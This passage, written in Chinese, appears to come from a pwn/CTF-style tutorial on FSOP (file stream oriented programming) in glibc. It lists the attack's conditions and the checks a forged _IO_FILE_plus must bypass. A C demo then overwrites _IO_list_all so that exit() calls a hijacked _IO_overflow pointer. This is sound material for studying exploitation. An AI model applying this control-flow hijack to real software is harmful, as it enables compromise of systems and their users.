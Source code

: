 ### 原理示例 

FSOP 利用的条件：泄露 libc.so 基址，因为 \_IO_list_all 是作为全局变量储存在 libc.so 中的；用任意地址写把 \_IO_list_all 改为指向可控内存的地址；伪造 \_IO\_FILE\_plus 结构体。伪造结构体需要 bypass 这些 check ：

```c
if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))
               && _IO_OVERFLOW (fp, EOF) == EOF)
           {
               result = EOF;
          }
```

也就是

- **fp->_mode <= 0**
- **fp->_IO_write_ptr > fp->_IO_write_base**

写一个 demo 验证一下：首先分配一块内存用于存放伪造 _IO_FILE_plus（\_IO_FILE、vtable)。\_IO_write_ptr、\_IO_write_base、\_mode 等数据偏移如下（可以通过查前面给出结构体算出来）：

```c
#define _IO_list_all 0x7ffff7dd2520
#define writebase_offset 0x20
#define writeptr_offset 0x28
#define mode_offset 0xc0
#define vtable_offset 0xd8

int main(void)
{
    void *ptr;
    long long *list_all_ptr;
    ptr=malloc(0x200);
		//bypass
    *(long long*)((long long)ptr+mode_offset)=0x0;
    *(long long*)((long long)ptr+writeptr_offset)=0x1;
    *(long long*)((long long)ptr+writebase_offset)=0x0;
    *(long long*)((long long)ptr+vtable_offset)=((long long)ptr+0x100);
		//vtable _IO_overflow
    *(long long*)((long long)ptr+0x100+24)=0x41414141;
		//orw _IO_list_all _chain 2 fake _IO_FILE_plus
    list_all_ptr=(long long *)_IO_list_all;
    list_all_ptr[0]=ptr;
    exit(0);
}
```

前 0x100 个字节作为 \_IO_FILE ，后 0x100 个字节作为 vtable ，在 vtable _IO_overflow 指针劫持为 0x41414141 。

之后，覆盖 libc 中的全局变量 \_IO_list_all 指向伪造的 _IO_FILE_plus 。

> 全局变量 \_IO_list_all 存储着结构体 _IO_FILE_plus 的地址，这个地址也是 \_IO_FILE 所在地址，后面是 vtable 

通过调用 exit 函数，程序会执行 \_IO_flush_all_lockp，经过 fflush[^1] 获取 \_IO_list_all 的值并取出作为 \_IO_FILE_plus **调用其中的 \_IO_overflow 函数**实现功能：


[^1]: 用 fwrite 等这种流 I/O 函数写入写出，数据会先放在缓冲区，并没有真正输入或者输出，需要用 fflush 冲洗流中信息才完成写入写出。避免用 fflush 冲洗就用 setbuf 函数关闭缓冲（pwn 题初始化必备）